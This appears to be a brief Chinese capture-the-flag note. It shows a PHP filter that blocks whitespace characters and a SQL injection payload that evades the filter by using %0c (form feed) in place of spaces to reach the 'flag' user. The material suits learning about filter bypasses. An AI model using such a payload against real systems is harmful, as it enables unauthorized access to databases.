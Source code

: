 # 知识点
%0c可以用
# 思路
```plsql
function waf($str){
	return preg_match('/ |\*|\x09|\x0a|\x0b|\0x0c|\x00|\x0d|\xa0/', $str);
}
```
```plsql
999'%0cor%0cusername='flag
```
![image.png](./images/20231017_2351362950.png)
